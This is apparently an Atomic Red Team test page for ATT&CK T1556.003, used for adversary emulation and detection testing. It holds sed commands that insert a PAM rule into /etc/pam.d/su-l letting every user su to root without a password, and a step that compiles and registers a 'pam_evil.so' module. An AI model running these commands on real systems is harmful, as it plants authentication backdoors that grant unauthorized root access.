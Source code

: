 # T1556.003 - Modify Authentication Process: Pluggable Authentication Modules
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/003)
<blockquote>Adversaries may modify pluggable authentication modules (PAM) to access user credentials or enable otherwise unwarranted access to accounts. PAM is a modular system of configuration files, libraries, and executable files which guide authentication for many services. The most common authentication module is <code>pam_unix.so</code>, which retrieves, sets, and verifies account authentication information in <code>/etc/passwd</code> and <code>/etc/shadow</code>.(Citation: Apple PAM)(Citation: Man Pam_Unix)(Citation: Red Hat PAM)

Adversaries may modify components of the PAM system to create backdoors. PAM components, such as <code>pam_unix.so</code>, can be patched to accept arbitrary adversary supplied values as legitimate credentials.(Citation: PAM Backdoor)

Malicious modifications to the PAM system may also be abused to steal credentials. Adversaries may infect PAM resources with code to harvest user credentials, since the values exchanged with PAM components may be plain-text since PAM does not store passwords.(Citation: PAM Creds)(Citation: Apple PAM)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious PAM rule](#atomic-test-1---malicious-pam-rule)

- [Atomic Test #2 - Malicious PAM module](#atomic-test-2---malicious-pam-module)


<br/>

## Atomic Test #1 - Malicious PAM rule
Inserts a rule into a PAM config and then tests it.

Upon successful execution, this test will insert a rule that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 4b9dde80-ae22-44b1-a82a-644bf009eb9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient pam_succeed_if.so uid >= 0|
| index | Index where the rule is inserted. | integer | 1|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```





<br/>
<br/>

## Atomic Test #2 - Malicious PAM module
Creates a PAM module, inserts a rule to use it, and then tests it.

Upon successful execution, this test will create a PAM module that allows every user to su to root without a password.

**Supported Platforms:** Linux


**auto_generated_guid:** 65208808-3125-4a2e-8389-a0a00e9ab326





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path_to_pam_conf | PAM config file to modify. | string | /etc/pam.d/su-l|
| pam_rule | Rule to add to the PAM config. | string | auth sufficient /tmp/pam_evil.so|
| index | Index where the rule is inserted. | integer | 1|
| path_to_pam_module_source | Path to PAM module source code. | path | PathToAtomicsFolder/T1556.003/src/pam_evil.c|
| path_to_pam_module | Path to PAM module object | path | /tmp/pam_evil.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i "#{index}s,^,#{pam_rule}\n,g" #{path_to_pam_conf}
```

#### Cleanup Commands:
```sh
sudo sed -i "\,#{pam_rule},d" #{path_to_pam_conf}
```



#### Dependencies:  Run with `sh`!
##### Description: The PAM development library must be installed to build the PAM module
##### Check Prereq Commands:
```sh
if [ -f /usr/include/security/pam_modules.h ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ -n "`which apt-get`" ]; then sudo apt-get -y install libpam0g-dev; elif [ -n "`which yum`" ]; then sudo yum -y install pam-devel; fi
```
##### Description: The PAM module must exist on disk at specified location (#{path_to_pam_module})
##### Check Prereq Commands:
```sh
if [ -f #{path_to_pam_module} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo gcc -shared -fPIC -o #{path_to_pam_module} #{path_to_pam_module_source}
```




<br/>
